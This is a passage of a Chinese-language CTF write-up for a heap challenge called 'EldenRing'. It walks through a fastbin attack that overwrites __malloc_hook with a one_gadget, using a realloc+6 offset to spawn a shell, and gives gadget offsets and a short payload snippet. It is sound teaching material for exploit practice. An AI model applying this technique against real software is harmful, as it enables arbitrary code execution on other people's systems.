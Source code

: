 （最终的目的是劫持 __malloc_hook，从而在执行 malloc 的时候能够取得 shell）

4. 然后取回这两个 fastbin，先取回 fastbin[0x60]，并趁机改写 0x71 堆块的 next 位为 libc_base+libc.symbols['__malloc_hook']-0x23，这样我们之后就能分配到这里

![](/assets/images/wp/2024/week5/EldenRing_14.png)

至于为什么要分配到这里，是因为 fastbin 分配出来时会检测即将分配的 chunk 处 size 位是否符合 malloc 的参数，其中 libc_base+libc.symbols['__malloc_hook']-0x23 处刚好满足 fastbin[0x70] 的要求

![](/assets/images/wp/2024/week5/EldenRing_15.png)

如何寻找这样的地址呢？

我们可以通过 ``find_fake_fast`` 查找合适的地址

![](/assets/images/wp/2024/week5/EldenRing_16.png)

5. 最后我们再连续分配两个满足 fastbins[0x70] 的 chunk，即可在 __malloc_hook 中填入 one_gadget，再次进入 malloc 时即可劫持执行流

6. 不过似乎事情没有这么简单，onegadget 此次并没有奏效，栈上的环境并不满足如下三个 one_gadget 的执行条件

```
0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv

```

这里介绍个小 trick

![](/assets/images/wp/2024/week5/EldenRing_17.png)

如上 push 会改变栈环境，可以在 __malloc_hook 处填入 realloc 的地址 + 一些偏移，从而构造一个符合 one_gadget 的栈环境，同时执行完 realloc 后会执行 __malloc_hook-8 处 __realloc_hook 的内容，我们理所应当的在此填入 one_gadget 劫持执行流

我使用的分别是 &realloc+6 和偏移为 0xf1247 的 onegadget

```
#----------------------Attack __malloc_hook 
Two_finger(123,b64e(b'sekiro'))#2
#Attackchunk
Two_finger(123,b64e(b'\x00'*(0x13-8)+p64(libc_base+0xf1247)+p64(libc_base+libc.symbols['realloc']+6)))
```

效果如下

![](/assets/images/wp/2024/week5/EldenRing_18.png)
